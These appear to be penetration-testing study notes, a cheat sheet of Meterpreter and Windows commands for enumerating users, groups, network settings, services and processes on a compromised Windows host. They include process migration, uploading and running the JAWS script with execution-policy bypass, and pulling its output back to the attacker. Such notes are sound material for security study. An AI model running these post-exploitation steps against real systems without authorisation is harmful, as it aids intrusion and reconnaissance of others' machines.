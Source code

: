 ### Users and groups

Note: the administrator account is disabled by default by Microsoft for security reasons.

- `meterpreter > getprivs`
- `msf6> use enum_logged_on_users`  `set session 1`
- `meterpreter > shell`
    - `C:\> whoami /priv` - equals to `getprivs`
    - `C:\> query user` - logged on users on the system
    - `C:\> net users` - all users
    - `C:\> net user administrator` - full additional info about the user
    - `C:\> net localgroup` - groups
    - `C:\> net localgroup administrators` - users the are part of the group

### Network

- `C:\> ipconfig`
- `C:\> ipconfig --all` - additional info
- `C:\> route print` - gateway info
- `C:\> arp -a` - all devices and their MAC addresses
- `C:\> netstat -ano` - running services and their ports on the target
- `C:\> netsh firewall show state` - show the firewall state
    - or
    - `C:\> netsh advfirewall show allprofiles`

### Running Services and Processes

Process is an executable that is running, service is a process that is running in the background

- `meterpreter > ps` - running processes
    - If we are not privileged, we will not see the owners (users) of processes.
- `meterpreter > pgrep explorer.exe`
- `meterpreter > migrate <pid>`
- `C:\> net start` - active services
- `C:\> wmic service list brief` - all services
- `C:\> tasklist /SVC` - processes and their corresponding services
- `C:\> schtasks /query /fo LIST` - scheduled tasks || or `schtasks /query /fo LIST /v` - for additional info

### Automating Windows Local Enumeration

- `msf6> use winrm_script_exec`
    - `set FORCE_VBS true`
- `meterpreter > show_mount` - Drive info
- `msf6> use win_privs`, `checkvm`, `enum_logged_on_users`, `enum_applications`, `enum_computers`  (part of a network - domain), `enum_patches`, `enum_shares`
- `wget https://raw.githubusercontent.com/411Hall/JAWS/master/jaws-enum.ps1`
- `meterpreter > cd C:\\temp\\`, `upload jaws-enum.ps1`
- `meterpreter > shell`
    - `C:\> powershell.exe -ExecutionPolicy Bypass -File .\jaws-enum.ps1 -OutputFileName jaws-enum.txt`
- `meterpreter > download jaws-enum.txt`

### Linux Local Enumeration
